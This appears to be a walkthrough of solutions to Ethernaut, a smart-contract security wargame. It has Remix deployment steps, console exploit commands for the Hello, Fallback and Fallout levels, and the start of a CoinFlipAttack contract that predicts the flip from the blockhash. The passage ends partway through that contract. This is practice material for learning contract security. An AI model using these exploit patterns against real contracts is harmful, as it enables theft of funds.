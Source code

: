     [1]: Select type inject to metamask if you use metamask wallet <br />
    [2]: Select your account want on wallet.<br/>
    [3]: Select file you want to deploy.<br/>
    [4]: address param you want deploy to <br/>
    [5]: As you see we have `isLastFloor` function and `setTop` function after We deployed We have button to execute they with params. 



## Go to ethernaut

### Hello
console: <br/>
```
await contract.info();
await contract.info1();
await contract.infoNum();
await contract.info42();
await contract.theMethodName();
await contract.method7123949();
await contract.authenticate(await contract.password());
```
confirm transaction and wait until done
===> submit level


### Fallback:
console:
```
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
await contract.withdraw()
```
===> submit level

### Fallout
console:
```
contract.Fal1out()
```
===> submit level


### Coin Flip
`CoinFlip.sol` ==> create and copy content of this level.<br>
replace:<br> 
- `@openzeppelin/contracts/math/SafeMath.sol` => `https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol`<br>

`CoinFlipAttack.sol`
```
pragma solidity ^0.8.0;
import './CoinFlip.sol';

contract CoinFlipAttack {

    CoinFlip public _v;
    uint256 FACTOR = <copy_from_CoinFlip.sol>;
    
    constructor(address v) public {
        _v = CoinFlip(v);
    }

    function flip() public returns (bool) {
        uint256 b = uint256(blockhash(block.number -1));
        uint256 coinFlip = uint256(b/FACTOR);
```
